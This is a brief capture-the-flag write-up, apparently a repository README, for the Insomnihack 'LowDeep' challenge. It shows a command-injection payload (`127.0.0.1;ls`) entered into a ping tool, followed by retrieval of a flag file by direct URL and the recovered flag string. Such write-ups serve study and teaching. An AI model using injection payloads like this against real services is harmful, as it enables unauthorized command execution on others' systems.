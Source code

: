 # LowDeep 
## Methods
ping itself
so I try to `ls` what is in the current directory.
`127.0.0.1;ls`
then i found a special directory `_res_` and a file `print-flag`
but we cant run  `echo` or `cat`
so i try to download the file directly with the link above  
`http://lowdeep.insomnihack.ch/print-flag`
and success!!!!GET FLAG!!!
`INS{Wh1le_ld_k1nd_0f_forg0t_ab0ut_th3_x_fl4g}`

<img src="./low.png">

